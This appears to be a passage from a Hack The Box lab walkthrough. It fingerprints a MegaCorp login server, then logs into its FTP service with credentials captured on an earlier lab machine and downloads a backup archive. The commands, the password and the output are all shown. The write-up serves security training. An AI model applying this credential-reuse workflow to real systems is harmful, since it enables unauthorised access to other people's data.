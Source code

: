 Let's identify the website with [WhatWeb](https://tools.kali.org/web-applications/whatweb).

```console
$ whatweb http://10.10.10.46
http://10.10.10.46 [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.46], PasswordField[password], Title[MegaCorp Login]
```
We don't see anything relevant that we don't know.

When browsing `http://10.10.10.46`{: .filepath} with a web browser, we get a login page of MegaCorp with nothing else. Finding hidden files or directories with [Wfuzz](https://tools.kali.org/web-applications/wfuzz) won't be successful.

Since FTP is running, we will start from here.

> Let's remember that the previous machine ([Oopsie](https://ib4rz.github.io/posts/HTB-Oopsie/)), during the post-exploitation phase, we gained user credentials for an FTP service.
{: .prompt-info}

The credentials were:

```yml
user: ftpuser
pass: mc@F1l3ZilL4
```

```console
$ ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

It has worked! We are within the service.

## Vulnerability Analysis & Explotation
---

Let's list the contents and run the `passive` command to solve issues with connectivity due to client-side firewalls.

In the current working directory, there is a file called `backup.zip`{: .filepath}, so let's download it using `get`.

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
226 Directory send OK.
ftp> passive
Passive mode on.
ftp> get backup.zip
local: backup.zip remote: backup.zip
227 Entering Passive Mode (10,10,10,46,40,107).
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.03 secs (75.5931 kB/s)
ftp> exit
221 Goodbye.
```
